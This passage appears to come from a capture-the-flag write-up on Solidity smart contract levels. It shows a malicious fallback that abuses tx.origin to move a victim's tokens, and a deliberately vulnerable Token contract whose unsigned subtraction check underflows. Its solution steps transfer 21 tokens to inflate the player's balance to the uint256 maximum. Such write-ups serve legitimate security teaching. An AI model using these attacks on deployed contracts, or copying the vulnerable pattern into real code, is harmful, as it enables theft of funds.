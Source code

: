     Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

function () payable {
  token.transfer(attackerAddress, 10000);
}

    In this scenario, tx.origin will be the victim's address (while msg.sender will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.

=========================

5. Token

=========================

    pragma solidity ^0.4.18;

    contract Token {

        mapping(address => uint) balances;
        uint public totalSupply;

        function Token(uint _initialSupply) {
            balances[msg.sender] = totalSupply = _initialSupply;
        }

        function transfer(address _to, uint _value) public returns (bool) {
            require(balances[msg.sender] - _value >= 0);
            balances[msg.sender] -= _value;
            balances[_to] += _value;
            return true;
        }

        function balanceOf(address _owner) public constant returns (uint balance) {
            return balances[_owner];
        }
    }

=========================

###Goal
* You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

=========================

### Solution

* Simply transfer 21 tokens to any address that is not the player address
    * await contract.transfer("0x0",21)
* Then check the balance afterwards
    * (await contract.balanceOf(player)).toNumber()
    * $ 1.157920892373162e+77
* That number should be the maximum uint256 can ever be!

=========================
